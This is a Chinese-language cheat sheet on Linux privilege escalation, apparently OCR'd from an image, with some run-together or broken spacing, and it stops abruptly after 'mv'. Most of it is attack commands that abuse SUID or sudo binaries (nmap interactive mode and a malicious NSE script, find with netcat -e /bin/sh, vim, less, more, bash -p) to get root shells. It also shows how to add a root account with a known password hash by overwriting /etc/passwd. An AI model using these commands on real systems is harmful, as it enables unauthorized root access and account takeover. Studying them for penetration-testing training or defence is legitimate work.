 也可以使用 sudo -l 命令列出当前用户可执行的命令

常用提权方式
nmap

find / -perm -u = s -type f 2> / dev / null –查找设置了SUID位的可执行文件

ls -la / usr / local / bin / nmap –让我们确认nmap是否设置了SUID位。

Nmap的SUID位置1。很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特权运行，我们可以通过其交互模式访问’root’shell。

nmap –interactive –运行nmap交互模式！sh –我们可以从nmap shell转到系统shell

msf中的模块为：

exploit/unix/local/setuid_nmap

较新版可使用 —script 参数：

echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse

find

touch test

nc 反弹 shell：

find test -exec netcat -lvp 5555 -e /bin/sh ;

vi/vim

Vim的主要用途是用作文本编辑器。但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

打开vim,按下ESC

:set shell=/bin/sh:shell

或者

sudo vim -c ‘!sh’

bash

以下命令将以root身份打开一个bash shell。

bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

less

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。

less /etc/passwd!/bin/sh

more

more /home/pelle/myfile!/bin/bash

cp

覆盖 /etc/shadow 或 /etc/passwd

[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
mv
